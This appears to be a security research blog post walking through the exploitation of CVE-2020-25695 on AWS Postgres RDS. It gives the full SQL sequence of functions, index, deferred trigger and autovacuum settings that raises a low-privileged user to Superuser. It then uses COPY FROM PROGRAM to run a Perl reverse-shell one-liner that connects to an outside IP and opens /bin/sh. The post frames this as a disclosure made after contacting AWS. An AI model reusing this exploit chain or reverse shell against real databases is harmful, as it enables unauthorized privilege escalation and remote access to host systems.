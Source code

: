 # Abstract

The recent disclosure of [CVE-2020-25695](https://nvd.nist.gov/vuln/detail/CVE-2020-25695) by [staaldraad](https://gist.github.com/staaldraad/1325617885d42aa40777aa4774e91214) and the [excellent walkthrough](https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/) was possible to be exploited on [AWS Postgres RDS](https://aws.amazon.com/rds/postgresql/) to get a low privilege shell on the RDS underlying Operating System. As a managed service, RDS does not usually provide this kind of access and the underlying OS is a blackbox for AWS customers.

As of 2021-05-05 it was possible to spin up a new RDS with vulnerable PostgreSQL versions, and exploit CVE-2020-25695. It is not possible anymore to spin up a new RDS with a vulnerable PostreSQL version, and this article was published after contacting AWS Security team.

AWS Customers still running an outdated PostgreSQL version should consider an option to keep their DB engines updated from minor version to minor version [automatically](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/USER_UpgradeDBInstance.PostgreSQL.html#USER_UpgradeDBInstance.PostgreSQL.Minor).

# PoC

In order to get the shell on the Linux host running Postgres RDS, the `poc2.sql` provided by [staaldraad](https://gist.github.com/staaldraad/1325617885d42aa40777aa4774e91214) only needs to be slightly modified. Especially in RDS context, customers are given a Postgres low privileged account, and the Superuser is ran by the user `rdsadmin`.

In this example, we created a new RDS running the lowest version possible as this date: `9.6.1`. Postgres 9.3 has a `COPY <table> FROM PROGRAM <cmd>` that is very useful to transform the Superuser privilege gained into a shell on the underlying OS. Additionally, the low privileged Postgres user we created through RDS console is `postgres`. Our aim is to use CVE-2020-25695 to have the `postgres` user as Superuser and use this privilege to get a shell.

The first part is pretty much following `poc2.sql`.

A new database is setup
```
psql -U postgres -d template1 -h <rds-name>.<region>.rds.amazonaws.com
Password for user postgres:
psql (13.2, server 9.6.1)
SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
Type "help" for help.

postgres@template1:5432=><rds-name>.<region>.rds.amazonaws.com CREATE DATABASE fooz;
CREATE DATABASE
postgres@template1:5432=><rds-name>.<region>.rds.amazonaws.com  \c fooz
psql (13.2, server 9.6.1)
SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
You are now connected to database "fooz" as user "postgres".
```

The tables are created
```
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE TABLE t0 (s varchar);
CREATE TABLE
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE TABLE t1 (s varchar);
CREATE TABLE
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE TABLE exp (a int, b int);
CREATE TABLE
```

The functions to exploit the vulnerability are created. Here we change 2 things to follow our setup:

- we ALTER the user `postgres` to give it `SUPERUSER`
- we change the if with the RDS Superuser `rdsadmin`

```
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer
   LANGUAGE sql SECURITY INVOKER AS
'INSERT INTO fooz.public.t0 VALUES (current_user); SELECT $1';
CREATE FUNCTION

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE INDEX indy ON exp (sfunc(a));
CREATE INDEX

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer
   LANGUAGE sql SECURITY INVOKER AS
'INSERT INTO fooz.public.t1 VALUES (current_user); SELECT $1';
CREATE FUNCTION

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE OR REPLACE FUNCTION snfunc2(integer) RETURNS integer
   LANGUAGE sql SECURITY INVOKER AS
'INSERT INTO fooz.public.t1 VALUES (current_user);
ALTER USER postgres SUPERUSER; -- our user postgres is altered here
SELECT $1';
CREATE FUNCTION

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE OR REPLACE FUNCTION strig() RETURNS trigger
AS $e$
BEGIN
IF current_user = 'rdsadmin' THEN -- the rdsadmin user is checked here
    PERFORM fooz.public.snfunc2(1000); RETURN NEW;
ELSE
    PERFORM fooz.public.snfunc(1000); RETURN NEW;
END IF;
END $e$
LANGUAGE plpgsql;
CREATE FUNCTION

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com CREATE CONSTRAINT TRIGGER def
    AFTER INSERT ON t0
    INITIALLY DEFERRED FOR EACH ROW
    EXECUTE PROCEDURE strig();
CREATE TRIGGER

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com ALTER TABLE exp SET (autovacuum_vacuum_threshold = 1);
ALTER TABLE

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com ALTER TABLE exp SET (autovacuum_analyze_threshold = 1);
ALTER TABLE
```

Time to trigger the exploit, leveraging the `autovaccum` setup.
```
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com \du postgres
                        List of roles
 Role name |          Attributes           |    Member of
-----------+-------------------------------+-----------------
 postgres  | Create role, Create DB       +| {rds_superuser}
           | Password valid until infinity |

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com INSERT INTO exp VALUES (1,1),(2,3),(4,5),(6,7),(8,9);
INSERT 0 5

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com DELETE FROM exp;
DELETE 5

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com INSERT INTO exp VALUES (1,1);
INSERT 0 1

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com \du postgres
                          List of roles
 Role name |            Attributes             |    Member of
-----------+-----------------------------------+-----------------
 postgres  | Superuser, Create role, Create DB+| {rds_superuser}
           | Password valid until infinity     |
```

Now CVE-2020-25695 is exploited and our `postgres` user has `Superuser` privilege, we can leverage it to gain a shell using the `FROM PROGRAM` Postgres feature.
Here the [dollar-quote](https://www.postgresql.org/docs/current/sql-syntax-lexical.html#SQL-SYNTAX-DOLLAR-QUOTING) `$$` is used for the command not to be mangled by quotes.
```
postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com  CREATE TABLE cmd (s varchar);
CREATE TABLE

postgres@fooz:5432=><rds-name>.<region>.rds.amazonaws.com COPY cmd FROM PROGRAM $$perl -e 'use Socket;$i="1.2.3.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'$$;
```

![shell](./img/2021-05-03-using-cve-2020-25695-to-get-shell-on-rds/shell.png)

Finally we can explore the processes and host running Postgres RDS.

![rds-host](./img/2021-05-03-using-cve-2020-25695-to-get-shell-on-rds/rds-host.png)
